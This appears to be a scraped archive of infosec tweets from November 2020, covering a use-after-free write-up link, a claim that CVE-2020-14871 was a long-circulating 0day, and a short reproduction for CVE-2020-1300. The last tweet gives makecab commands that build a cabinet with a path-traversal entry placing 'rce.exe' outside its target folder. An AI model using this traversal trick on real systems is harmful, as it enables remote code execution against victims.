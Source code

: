 * https://symeonp.github.io/2020/12/08/phonebook-uaf-analysis.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1324022373255909377 _at 2020-11-04 16:15:07_**
<blockquote>
CVE-2020-14871 had been exploited and distributed in the wild to numerous groups since at least October 6th 2014. That's 6 years that this vulnerability was available as 0day to multiple non-exclusive parties, VBI leak in HT emails shows it's the same bug. https://t.co/Prh3tm3DHN https://t.co/Efv6jtPFOB
</blockquote>

* https://wikileaks.org/hackingteam/emails/emailid/45441

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+El_eunGWMAEjthh.jpg" alt="http://pbs.twimg.com/media/El_eunGWMAEjthh.jpg"></td>
<td><img src="pictures/http+++pbs.twimg.com+media+El_evvQWMAI8D0s.jpg" alt="http://pbs.twimg.com/media/El_evvQWMAI8D0s.jpg"></td>
<td><img src="pictures/http+++pbs.twimg.com+media+El_e8ZqWMAAuls_.png" alt="http://pbs.twimg.com/media/El_e8ZqWMAAuls_.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1323694078022848512 _at 2020-11-03 18:30:35_**
<blockquote>
For those that want to repro CVE-2020-1300 you can just use makecab, no need to manually calc checksums now:

c:\&gt;type files.txt
"rce.exe" "../../rce.exe"
c:\&gt;makecab /f files.txt
</blockquote>


<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>136</code></td>
</tr></table>

---